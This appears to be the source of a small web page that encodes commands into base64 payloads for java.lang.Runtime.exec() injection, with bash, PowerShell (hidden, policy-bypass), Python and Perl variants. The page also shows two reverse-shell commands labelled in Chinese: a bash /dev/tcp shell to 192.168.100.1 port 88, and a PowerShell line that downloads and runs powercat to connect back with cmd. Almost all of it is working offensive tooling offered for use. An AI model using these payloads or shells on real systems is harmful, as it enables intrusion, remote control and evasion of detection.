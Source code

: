 ```yaml
---
layout: page
title: java.lang.Runtime.exec() Payload
---
```

<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
</head>
<body>
<!-- <h1>java.lang.Runtime.exec() Payload</h1> -->
<input type="radio" id="bash" name="option" value="bash" onclick="processInput();" checked=""><label for="bash">Bash</label>
<input type="radio" id="powershell" name="option" value="powershell" onclick="processInput();"><label for="powershell">PowerShell</label>
<input type="radio" id="python" name="option" value="python" onclick="processInput();"><label for="python">Python</label>
<input type="radio" id="perl" name="option" value="perl" onclick="processInput();"><label for="perl">Perl</label><p></p>
<p><textarea rows="10" style="width: 100%; box-sizing: border-box;" id="input" placeholder="Type input here..."></textarea>
<textarea rows="5" style="width: 100%; box-sizing: border-box;" id="output" onclick="this.focus(); this.select();" readonly=""></textarea></p>
<script>
  var taInput = document.querySelector('textarea#input');
  var taOutput = document.querySelector('textarea#output');
    function processInput() {
        var option = document.querySelector('input[name="option"]:checked').value;
            switch (option) {
              case 'bash':
                taInput.placeholder = 'Type Bash here...';
                taOutput.value = 'bash -c {echo,' + btoa(taInput.value) + '}|{base64,-d}|{bash,-i}';
                break;
              case 'powershell':
                taInput.placeholder = 'Type PowerShell here...';
                poshInput = '';
                for (var i = 0; i < taInput.value.length; i++) { poshInput += taInput.value[i] + unescape("%00"); }
                taOutput.value = 'powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ' + btoa(poshInput);
                break;
              case 'python':
                taInput.placeholder = 'Type Python here...';
                taOutput.value = "python -c exec('" + btoa(taInput.value) + "'.decode('base64'))";
                break;
              case 'perl':
                taInput.placeholder = 'Type Perl here...';
                taOutput.value = "perl -MMIME::Base64 -e eval(decode_base64('" + btoa(taInput.value) + "'))";
                break;
              default:
                taOutput.value = ''
            }
        if (!taInput.value) taOutput.value = '';
    }
taInput.addEventListener('input', processInput, false);
</script>

<b>Bash反弹命令：</b>
<p style="color:red;">bash -i &gt;&amp; /dev/tcp/192.168.100.1/88 0&gt;&amp;1</p>
<br>
<b>PowerShell反弹命令：</b>
<p style="color:red;">powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.100.1 -p 88 -e cmd</p>
<br>
</body>
</html>


